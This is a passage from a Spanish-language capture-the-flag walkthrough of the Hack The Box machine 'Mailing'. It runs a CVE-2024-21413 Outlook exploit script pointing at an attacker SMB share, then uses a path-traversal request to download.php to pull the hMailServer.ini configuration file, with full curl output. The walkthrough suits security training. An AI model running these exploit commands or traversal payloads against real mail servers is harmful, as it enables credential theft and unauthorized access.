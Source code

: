 ```bash
❯ python CVE-2024-21413.py --server mailing.htb --username 'user@mailing.htb' --password 'password' --subject 'Read this' --sender admin@mailing.htb --recipient maya@mailing.htb --url '\\10.10.14.167\uwu\uwu.rtf'

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de

❌ Failed to send email: (535, b'Authentication failed. Restarting authentication process.')
```

Uh, parece que esa credencial no funciona.

Volvamos a la web, si vemos nos dice que tienen hMailServer como servidor de correos

> Using any mail client you can connect to our server with your account with any system (Linux, MacOS or Windows) and you're ready to start mailing! Powered by hMailServer

Viendo la documentación oficial de este servidor de correo sobre como se instala y donde se hayan sus archivos de configuración, podemos saber de un dato bastante útil:

![Config location](/assets/writeups/mailing/4.png)

Podemos intentar obtener el archivo `hMailServer.ini` utilizando el LFI que descubrimos al inicio. Probando por localizaciones encontramos que se haya en `C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini`

```bash
❯ curl -v "http://mailing.htb/download.php?file=..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Program%20Files%20(x86)\\hMailServer\\Bin\\hMailServer.ini"
* Host mailing.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.14
*   Trying 10.10.11.14:80...
* Connected to mailing.htb (10.10.11.14) port 80
> GET /download.php?file=..\..\..\..\..\..\..\..\..\..\Program%20Files%20(x86)\hMailServer\Bin\hMailServer.ini HTTP/1.1
> Host: mailing.htb
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Cache-Control: must-revalidate
< Pragma: public
< Content-Type: application/octet-stream
< Expires: 0
< Server: Microsoft-IIS/10.0
< X-Powered-By: PHP/8.3.3
< Content-Description: File Transfer
< Content-Disposition: attachment; filename="hMailServer.ini"
< X-Powered-By: ASP.NET
< Date: Thu, 05 Sep 2024 23:21:31 GMT
< Content-Length: 604
```